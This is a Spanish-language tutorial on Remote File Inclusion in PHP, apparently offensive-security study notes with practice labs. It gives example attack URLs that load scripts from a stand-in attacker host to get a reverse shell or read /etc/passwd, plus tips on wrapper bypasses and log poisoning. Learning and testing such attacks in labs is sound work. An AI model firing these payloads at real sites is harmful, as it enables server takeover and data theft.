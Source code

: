 ## Inclusión Remota de Archivos (RFI)
- La vulnerabilidad de Inclusión Remota de Archivos (RFI) es una fallo de seguridad en la que un atacante puede incluir archivos remotos en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

- En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

- Un atacante puede explotar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código dañino o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

## Ejemplo básico de ataque RFI:

```php
http://sitio-vulnerable.com/index.php?page=http://sitio-del-atacante.com/script-malicioso.php
```

### Ejemplo con wrapper PHP:
```php
http://sitio-vulnerable.com/index.php?page=php://filter/convert.base64-encode/resource=http://sitio-del-atacante.com/script-malicioso.php
```

## Ejemplo avanzado de ataque RFI:

- Inclusión de un archivo remoto para obtener una shell inversa:
```php
http://sitio-vulnerable.com/index.php?page=http://sitio-del-atacante.com/shell.php
```

- Uso de un archivo remoto para leer el contenido de un archivo sensible en el servidor:
```php
http://sitio-vulnerable.com/index.php?page=http://sitio-del-atacante.com/leer-archivo.php?archivo=/etc/passwd
```

## Herramientas y recursos para practicar:

- **DVWP (Damn Vulnerable Web Project):** Un laboratorio para practicar vulnerabilidades como RFI.
  - Enlace al proyecto: [DVWP](https://github.com/vavkamil/dvwp)

- **Gwolle Guestbook:** Un plugin de WordPress que puede ser utilizado para pruebas de vulnerabilidades.
  - Enlace de descarga: [Gwolle Guestbook](https://es.wordpress.org/plugins/gwolle-gb/)

## Consejos para explotarlo:

1. **Validar entradas:** Verifica si las entradas del usuario son validadas correctamente. Intenta incluir URLs externas y observa el comportamiento de la aplicación.

2. **Pruebas con wrapper de PHP:** Utiliza wrapper como `php://input`, `php://filter`, o `data://` para evadir restricciones.

3. **Logs del servidor:** En algunos casos, los logs del servidor pueden ser explotados para incluir código malicioso. Intenta apuntar a rutas como `/var/log/apache2/access.log`.
